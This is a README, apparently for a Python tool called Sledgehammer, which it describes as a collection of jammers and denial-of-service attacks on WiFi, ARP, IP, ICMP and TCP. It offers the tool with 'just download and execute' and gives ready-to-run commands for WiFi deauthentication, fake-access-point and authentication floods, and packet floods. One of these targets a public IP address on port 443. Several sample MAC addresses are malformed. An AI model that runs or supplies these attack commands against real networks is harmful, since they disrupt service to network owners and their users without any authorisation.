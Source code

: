 ### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- Wifi (deauthentication, AP simulation)
- arp
- ip
- icmp
- tcp


### Prerequisites
- Python 3.x
- Pypacker ('pip install pypacker' or clone and 'python setup.py install')
# 
### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.

- WiFI DoS via smart deauthentication

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999

- WiFi DoS via mass fake APs

  python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999

- WiFi DoS via mass auth

  python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999

- ARP

  python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1

- ICMP

  python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1

- IP

  python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999

- TCP

  python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443
